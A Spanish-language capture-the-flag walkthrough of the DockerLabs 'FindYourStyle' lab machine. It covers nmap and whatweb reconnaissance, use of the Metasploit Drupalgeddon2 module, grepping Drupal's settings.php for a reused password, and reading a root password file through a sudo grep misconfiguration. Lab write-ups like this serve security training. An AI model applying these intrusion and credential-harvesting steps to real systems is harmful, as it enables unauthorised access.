 #MAQUINA #DOCKERLABS #FACIL 
#DRUPAL
#MSFCONSOLE
<hr>

# RECONOCIMIENTO

Vamos a resolver **FindYourStyle** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 13:09 CET
Initiating ARP Ping Scan at 13:09
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 13:09, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:09
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 13:09, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-10 13:09:03 CET for 0s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.64 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 13:09 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-title: Welcome to Find your own Style | Find your own Style
|_http-server-header: Apache/2.4.25 (Debian)
|_http-generator: Drupal 8 (https://www.drupal.org)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.58 seconds


```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 13:09 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /rss.xml: RSS or Atom feed
|   /robots.txt: Robots file
|   /: Drupal version 8 
|   /README.txt: Interesting, a readme.
|_  /contact/: Potentially interesting folder
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 24.27 seconds

whatweb "http://172.17.0.2/"
http://172.17.0.2/ [200 OK] Apache[2.4.25], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[172.17.0.2], MetaGenerator[Drupal 8 (https://www.drupal.org)], PHP[7.2.3], PoweredBy[-block], Script, Title[Welcome to Find your own Style | Find your own Style], UncommonHeaders[x-drupal-dynamic-cache,x-content-type-options,x-generator,x-drupal-cache], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.2.3], X-UA-Compatible[IE=edge]

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** **Drupal 8** .

# EXPLOTACION

Al buscar con **msfconsole**:
```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > search drupal 8

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   
```

Lo usamos y ponemos el LHOST y RHOST

# ESCALADA PRIVILEGIOS

Buscamos entre los archivos del drupal para escalar:
   ```bash
www-data@eb1103dfdb86:/var/www/html/sites/default$ cat settings.php | grep "pass"
 * to replace the database username and password and possibly the host and port
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 * username, password, host, and database name.
 *     'password' => 'sqlpassword',
 * You can pass in the user name and password for basic authentication in the
 * bypassing the proxy, in $settings['http_client_config']['proxy']['no'].
# $settings['http_client_config']['proxy']['http'] = 'http://proxy_user:proxy_pass@example.com:8080';
# $settings['http_client_config']['proxy']['https'] = 'http://proxy_user:proxy_pass@example.com:8080';
 * malicious client could bypass restrictions by setting the
 * HTTP proxy, and bypass the reverse proxy if one is used) in order to avoid

```

YA ESTAMOS COMO BALLENITA.

Buscamos archivos con permisos SUDO:
   ```bash
ballenita@eb1103dfdb86:/var/www/html/sites/default$ sudo -l
Matching Defaults entries for ballenita on eb1103dfdb86:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ballenita may run the following commands on eb1103dfdb86:
    (root) NOPASSWD: /bin/ls, /bin/grep
```

Vemos **ls y grep** con permisos SUDO :
   ```bash
ballenita@eb1103dfdb86:/var/www/html/sites/default$ sudo ls /root
secretitomaximo.txt
ballenita@eb1103dfdb86:/var/www/html/sites/default$ sudo grep '' /root/secretitomaximo.txt
nobodycanfindthispasswordrootrocks
ballenita@eb1103dfdb86:/var/www/html/sites/default$ su root
Password: 
root@eb1103dfdb86:/var/www/html/sites/default# whoami
root
root@eb1103dfdb86:/var/www/html/sites/default# 

```

**YA ESTAMOS COMO ROOT.**